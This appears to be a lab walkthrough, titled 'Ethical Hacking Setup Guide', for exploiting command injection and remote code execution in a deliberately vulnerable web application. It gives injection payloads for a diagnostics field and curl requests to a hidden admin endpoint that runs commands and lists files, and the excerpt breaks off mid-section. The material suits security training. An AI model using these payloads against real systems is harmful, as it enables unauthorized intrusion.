 # Ethical Hacking Setup Guide

## Quick Start for Vulnerability Testing

### Prerequisites
1. Admin access to the application
2. Basic understanding of command injection
3. Network access to the target server
4. Tools: `curl`, `netcat`, browser developer tools

### Multiple Attack Vectors

This application contains **three separate RCE vulnerabilities** for comprehensive testing:

1. **Primary UI-based attack** - System Diagnostics interface
2. **Hidden API endpoint** - System Info with cmd parameter
3. **Network tools API** - Command injection in network utilities

### Steps to Exploit the RCE

#### 1. Access the Vulnerable Feature (UI Method)
1. Log in with admin credentials
2. Navigate to `/admin`
3. Click on the **"System Diagnostics"** tab
4. You'll see a network diagnostic tool

#### 2. Identify the Vulnerability
**Look for these indicators:**
- Warning message: "⚠️ Note: This tool directly executes system commands on the server"
- User-controlled input field for "Target Host/IP"
- Multiple command options (ping, traceroute, etc.)
- Raw command output display

#### 3. Test Basic Command Injection (UI Method)

Start with simple tests in the "Target Host/IP" field:

```bash
# Test 1: Basic command separation
8.8.8.8; whoami

# Test 2: Command chaining
8.8.8.8 && id

# Test 3: Pipe command
8.8.8.8 | ls -la
```

#### 4. Direct API Exploitation (Advanced)

**Method 1: Hidden System Info Endpoint**
```bash
# Get your auth token from browser developer tools
TOKEN="your-jwt-token-here"

# Basic command execution
curl -X GET "http://target:5000/admin/system-info?cmd=whoami" \
     -H "Authorization: Bearer $TOKEN"

# File system enumeration
curl -X GET "http://target:5000/admin/system-info?cmd=ls%20-la%20/" \
     -H "Authorization: Bearer $TOKEN"

# Environment variables
```